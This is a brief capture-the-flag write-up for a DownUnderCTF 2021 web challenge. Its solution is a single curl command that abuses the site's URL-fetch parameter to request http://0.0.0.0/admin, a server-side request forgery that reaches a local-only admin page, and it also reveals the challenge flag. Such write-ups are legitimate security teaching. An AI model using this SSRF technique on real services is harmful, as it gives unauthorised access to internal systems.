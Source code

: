 #### Challenge:

You're hot then you're cold.

You're yes then you're no.

You're out but somehow in... 

Wait is that right?

[web-inside-out](https://web-inside-out-b3d9f3b9.chal-2021.duc.tf/)

---

#### Solution:

- inspecting the source reveals that `/admin` page exists, however it's restricted only to local network

```bash
curl 'https://web-inside-out-b3d9f3b9.chal-2021.duc.tf/request?url=http://0.0.0.0/admin' | jq .text
```

---

<details><summary>FLAG:</summary>

```
DUCTF{very_spooky_request}
```

</details>
<br/>
